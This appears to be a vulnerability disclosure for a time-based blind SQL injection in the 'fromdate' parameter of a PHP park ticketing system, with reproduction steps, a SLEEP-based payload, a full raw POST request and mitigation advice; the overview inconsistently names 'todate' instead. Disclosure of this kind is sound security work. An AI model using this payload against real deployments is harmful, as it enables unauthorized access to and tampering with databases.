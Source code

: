 # SQL Injection Vulnerability in Park Ticketing Management System (normal-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `normal-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `todate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `normal-bwdates-reports-details.php`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Normal People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104910.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104921.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704105021.png)
   
     attack payload    
```sql
    POST /Park-Ticketing-Management-System-Project/ptms/normal-bwdates-reports-details.php HTTP/1.1
    Host: 127.0.0.1
    Origin: http://127.0.0.1
    Accept-Language: zh-CN,zh;q=0.9
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)Chrome/137.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Content-Type: application/x-www-form-urlencoded
    Accept-Encoding: gzip, deflate, br, zstd
    Sec-Fetch-Site: same-origin
    sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
    sec-ch-ua-mobile: ?0
    Cache-Control: max-age=0
    Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-normalreports.php
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
    sec-ch-ua-platform: "Windows"
    Upgrade-Insecure-Requests: 1
    Content-Length: 45

    fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp&todate=2025-07-16&submit=
```
    


## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  


